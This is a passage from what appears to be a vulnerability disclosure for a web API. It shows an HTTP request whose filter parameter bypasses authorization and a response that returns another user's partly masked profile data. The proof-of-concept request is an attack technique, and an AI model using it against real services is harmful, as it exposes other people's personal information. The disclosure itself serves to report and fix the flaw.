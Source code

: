 ```http
            "firstName": "Domingo",
            "surname": "**********",
            "telephoneCountryCode": "**",
            "mobilePhone": "******",
            "languageId": 1,
            "createdAt": "2024-03-11T07:24:57.627Z",
            "termsOfUseAccepted": true,
            "howMeetUs": "**************",
            "id": "D5********************",
            "type": "UserGetResponseCustomDTO"
        }
    }]
}
```

The combination of filters can be used to evade authorization control and gain access to other users' profiles:

### Request

```http
GET /api/users?include=language,country&filter[users]=id=='94***************' HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJ....
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```

### Response

```http
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 19:50:07 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 520
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "data": [{
        "id": "94******************",
        "type": "UserGetResponseCustomDTO",
        "attributes": {
            "status": "ACTIVE",
            "countryId": 63,
            "timeZoneId": 2,
            "translationKey": "**************",
            "email": "jose******@domain.local",
            "firstName": "jose",
            "surname": "***************",
            "telephoneCountryCode": "**",
            "mobilePhone": "********",
```